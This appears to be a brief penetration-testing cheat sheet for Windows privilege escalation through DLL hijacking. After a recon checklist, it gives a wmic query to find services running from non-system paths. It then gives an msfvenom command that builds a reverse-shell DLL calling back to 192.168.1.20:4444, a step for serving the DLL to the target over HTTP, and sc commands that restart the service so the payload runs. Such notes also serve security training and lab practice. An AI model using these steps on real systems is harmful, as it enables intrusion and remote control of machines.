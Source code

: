 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
wmic service get name,pathname,startmode |findstr /i  /v C:\Windows\\

msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.1.20 lport=4444 -f dll -o hijackme.dll

sudo python3 -m http.service 8000 - let the target download hijackme.dll and put it on /Temp

sc stop dllsvc and sc start dllsvc

go back to listening terminal